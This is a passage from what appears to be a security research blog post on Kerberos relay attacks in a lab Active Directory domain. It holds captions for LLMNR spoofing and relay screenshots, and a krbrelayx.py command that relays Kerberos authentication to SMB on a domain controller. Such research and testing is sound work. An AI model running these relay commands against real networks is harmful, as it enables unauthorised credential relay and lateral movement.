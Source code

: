   <img src="/assets/img/20251029/42.png" width="800" style="border: 1px solid black;" alt=""/>
  <div style="font-style: italic; color: #666; margin-top: 0px;">LLMNR spoofing with spoofed answer name</div>
</div>
<div style="text-align: center; margin: 20px 0;">
  <img src="/assets/img/20251029/43.png" width="800" style="border: 1px solid black;" alt=""/>
  <div style="font-style: italic; color: #666; margin-top: 0px;">Kerberos relay over HTTP to HTTP</div>
</div>

## Kerberos Relay to SMB and LDAP/LDAPS
Kerberos relay to SMB also works straightforwardly.
```sh
# Kerberos relay to SMB
sudo python3 krbrelayx.py -smb2support -t smb://dc2.kawakatz.local --enum-local-admins
```
<div style="text-align: center; margin: 20px 0;">
  <img src="/assets/img/20251029/64.png" width="800" style="border: 1px solid black;" alt=""/>
  <div style="font-style: italic; color: #666; margin-top: 0px;">Kerberos relay over DNS to SMB</div>
</div>
<div style="text-align: center; margin: 20px 0;">
  <img src="/assets/img/20251029/65.png" width="800" style="border: 1px solid black;" alt=""/>
  <div style="font-style: italic; color: #666; margin-top: 0px;">Kerberos relay over HTTP to SMB</div>
</div>
